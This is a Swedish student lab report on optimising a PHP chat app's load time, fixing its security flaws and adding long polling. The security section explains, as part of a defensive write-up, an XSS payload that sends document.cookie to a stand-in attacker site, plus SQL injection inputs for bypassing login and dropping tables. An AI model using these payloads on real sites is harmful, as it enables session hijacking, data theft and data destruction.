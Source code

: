 Rapport för laboration 2 - 1DV449
Av: Viktor Nilsson

### Laddningstid ###

Det fanns en hel del att göra för att optimera laddningstiden för sidan och dessa samt tiderna efter att förändringarna gjorts visas här nedan.
Då det främst var inloggningen som tog tid gjordes flest tester här. Applikationen har under dessa tester körs från binero.

Tider för inloggningen i sekunder.
<pre>
Gjort åtgärd:           1      2      3      4      5     6     7

Första gången: 7050 - 3640 - 6500 - 6320 - 3080 - 3710 - 913 - 1070
Andra gången:  5860 - 2620 - 2230 - 2600 - 2760 -  586 - 112 -  647
Tredje gången: 4270 - 2250 - 2020 - 3100 - 3030 -  424 - 367 -  496
</pre>

 Åtgärder
 1. Ta bort onödig location (img/middle.php) + delayen på 2 sec
 2. Ta bort script som inte finns (longpoll.js) - onödig + mindre GET, boken
 3. Flytta om så att check.php körs i mess.php för att slippa ännu fler GET, boken
 4. Samla inline-script och css i mess.php och köra med externa filer (othercss.css, otherscripts.js)
 5. Tar bort dynamiska cssfilerna från css.php och lagt i othercss.css statiska filer. Kortare laddningstider pga lokal, färre GET, boken
 6. Minska bilderna - mindre data att skicka => snabbare (food.jpg)
 7. Minimera storleken på css- och js-filer.
 
 ### Mer om åtgärderna ###
 
 1. Genom att ta bort GET-requests drar vi ner på laddningstiden så location's vill vi minimera. Sen tog jag även bort fulingen som gjorde att applikationen tog 2 sekunder extra att laddas. Som källa till denna åtgärd tar jag både boken och föreläsningarna då vi pratat mycket om att dra ner på antalet förfrågningar. Laddningstiden blev markant bättre främst på grund av de 2 sekunderna som applikationen pausade.
 2. Scriptet fanns ej och såg därför ingen anledning till att ha det med. Detta drog ner på ytterligare en GET-request även fast det nog inte gjorde speciellt mycket är det en av de små bäckarna. Laddningstiden blev konstig första gången men andra och tredje visar ändå på förbättring, frågan är dock om det gjorde så pass mycket som den visar. Samma referens som ovan.
 3. För att fortsätta dra ner på onödiga laddningar omstrukturerade jag lite och flyttade över funktionalitet från check.php till mess.php. Här ser vi att laddningstiden hoppar upp förmodligen på grund av andra faktorer.
 4. Jag behöll inline-cssen för index.php då den förmodligen bara kommer köras en gång per session, men inline script och css i mess.php samlade jag ihop till var sin extern fil (othercss.css & otherscripts.js) för att kunna cachea detta så att det går snabbare att ladda sidan senare. Även omstrukturering gjordes i ordningen saker och ting laddades. Längst upp laddas css och längst ner script. css ska laddas först för att sidan ska kunna renderas snyggt och snabbt, script sist för att dessa inte behövs förrän sidan renderats och att dom enbart laddas hem en och en. (Boken som referens, Rule 6). Här ser vi vid första laddningen en markant skillnad. Det kan vara att bilden var cachead som spökade här.
 5. Jag vet inte om man fick göra så här, men vad jag kunde se från innehållet på de dynamiskt laddade css-filerna grid1 & grid2 fanns där inget som var specifikt för delar av sidan så jag valde att spara dessa lokalt istället för att snabba upp tiden. (Antar att det låg någon sleep() i denna också). Dessa tog över 1 sekund att ladda så skulle ge en markant skillnad hade jag hoppats på och det gav det förutom första laddningen som visar helt andra siffror.
 6. En sak jag märkte var att food.jpg var enormt stor och då den inte visades större än ungefär 300x220 behövde den heller inte vara större då den inte någonstans i applikationen visades större än detta. Här hade jag när jag gjort skrapan ändra storleken på skrapade bilder i php och sparat ner dessa i rätt storlek för att dra ner på datamängen som ska över till klienten. Här ser vi en stor skillnad då bilden emellanåt tog upp till 2-3 sekunder att ladda ibland.
 7. Som sista grej valde jag att förminska storleken på alla externa resurser (css och js) genom en minifier (http://cssminifier.com/ och http://javascript-minifier.com/). Allt för att dra ner på mängen data som ska skickas över. Testerna här visar att resultaten i förra testet kanske inte var helt så bra som dom visade då tiderna gick upp trots att jag förväntade mig dom att gå ner på grund av datamängen minskats med över 20-30% totalt på de externa resursfilerna.
 
 Kommentarer:
 css.php?css=grid1/2 tar väldigt ojämnt med tid under första testerna vilket gjort vissa tider ej rättvisa.
 den stora bilden food.jpg laddas inte alltid trots att cache rensas vilket har ställt till det i vissa testresultat.
 
 
 
 
### Säkerhet ###

1. Det fanns gott om säkerhetshål i applikationen varav ett var XSS i meddelandefältet.
-Man skulle kunna med hjälp av följande rad kunna skicka iväg cookieinformation till en extern sida: <script language="JavaScript">document.location="http://minhaxx0rsida.se/sparacookie.php?cookie=" + document.cookie;document.location="http://www.tillbakatillsidan.com"</script>
-Jag fixade till detta genom att köra htmlentities på all data som ska ut.
-Skada som hade kunnat ske är att någon får tag på ens session och kan komma in på sidan inloggad som dig.

2. Det finns inget skydd mot att highjacka sessioner.
-Man kan om man kommer åt sessionsinformationen (t.ex med en XSS-attack) använda denna för att logga in på sidan.
-Jag fixade detta genom att spara undan både IP och useragent som man sedan kollar mot. Går att manipulera men då måste attackeraren veta båda IP och useragent.
-Skadan som hade kunnat ske är samma som ovan; någon kan komma in på sidan inloggad som dig.

3. Mycket hål för SQL-Injections i ajaxanropen. Det jag upptäckt är getMessage, getMessageIdForProducer, getProducer går att utnyttja för SQL-injections.
-Genom att mata in ' OR '1'='1 Kommer allt att hämtas hem. Vill man kan man även '; DROP TABLE tabellen;--
-Fixas genom antingen att kolla så att ett ID är ett tal, intval() brukar jag använda för nummer. Att köra en prepare() och sen en bindParam() är vad jag gjort i detta fallet på samtliga.
-Med en SQL-Injection skulle man kunna komma över information från databasen eller förstöra genom att ta bort och manipulera data. Är lösenorden dåligt krypterade skulle dessa kunna användas för att testa dina inloggningsuppgifter på andra tjänster.

4. Det gick att logga in med SQL-injections i inloggningsfältet.
-Genom att mata in ' OR '1'='1 i båda fälten kommer du loggas in, inte otänkbart med adminkonto då detta ofta registreras först. Vet du användarnamnet kan du skriva in det och sedan skriva ' OR '1'='1 i lösenordsfältet för att logga in som den personen.
-Fixas som ovan genom att köra prepare() och bindParam().
-Går att göra saker som ovan men även att logga in som andra.

5. Mer SQL-injections finns att genomföra i meddelandeformuläret, både som namn och meddelande. Detta är precis som ovan avhjälpt med prepare() och bindParam() och innefattar samma säkerhetsrisker som ovan.

6. En säkerhetsrisk som var enkelt att missa var att vid utloggning blev man inte utloggad utan bara skickad till inloggningssidan. Gick man tillbaka var man fortfarande inloggad. Jag lade till en funktion som gjorde att man loggades ut innan man skickades tillbaka till index.php.
-Risken är att någon annan sätter sig vid datorn och kan komma åt ditt konto då du inte loggats ut på riktigt.
-Ta bort sessions hjälper i detta fallet för att döda inloggningen.
-Förbrytaren kan göra allt du kan då den är inloggad som dig.

### Comet Long Polling ###

Spännande extrauppgift som var riktigt lärorik! Jag löste uppgiften genom att ha en php-fil som efter att den kallas lägger sig i en loop i bestämt antal sekunder och kollar frekvent mot databasen om ett meddelande med ett nyare ID än det som skickades till scriptet finns. Om inte fortsätter loopandet, om det däremot kommit ett meddelande som är nyare och överensstämmer med producer-idet ($pid) retureras detta.

På klientsidan har jag tagit bort den vanliga koden som läste in meddelandena och ersatte med min egna som helt enkelt börjar med att kika om det finns något meddelande för $pid'en som är större än vilket det kommer finnas om det finns meddelanden. Detta äldsta meddelande skickas tillbaka och skrivs ut, samma kod excekveras igen fast denna gången med det nya idet för meddelandet. Hittas ett meddelande som är nyare händer samma sak och detta pågår till dess att det inte finns några nyare meddelande än sist laddat meddelande. Då kommer den istället ligga och försöka ladda scriptet tills dess att den timeoutar. Då tar den upp en ny anslutning och ligger och väntar innan antingen den också timeoutar eller att det faktiskt kommer ett nytt meddelande.

Den stora nackdelen är de väldigt många SQL-anrop som sker. Allt för att användaren ska få en push-aktig upplevelse. PHP är heller inte gjort för att ha denna typ av öppna anslutningar och vad jag kunnat läsa mig till så är detta väldigt resurskrävande med öppna anslutningar och php.

Jag lade även til en kolumn i sqlite-databasen (timestamp som integer) som håller tiden. Med javascript omvandlar jag denna och spottar ut mig ett finare format.
.prepend användes istället för .append för att få meddelandena att hamna i rätt ordning (senast överst).

### Slutkommentarer: ###
Ingen energi alls har lagts på att strukturera upp koden snyggare och med enhetligt. Hade jag haft tid hade jag gärna försökt ge mig på och göra denna kod mer objektorienterad och MVC men tid har inte funnits.
Inte heller har jag brytt mig om att kapsla in javascriptsfunktioner och den globala variabeln på ett snyggare sätt som vi lärde oss i webbteknik 1, också detta för att prioritera de moment laborationen var till för.
Hade jag haft mer tid hade detta också fixats.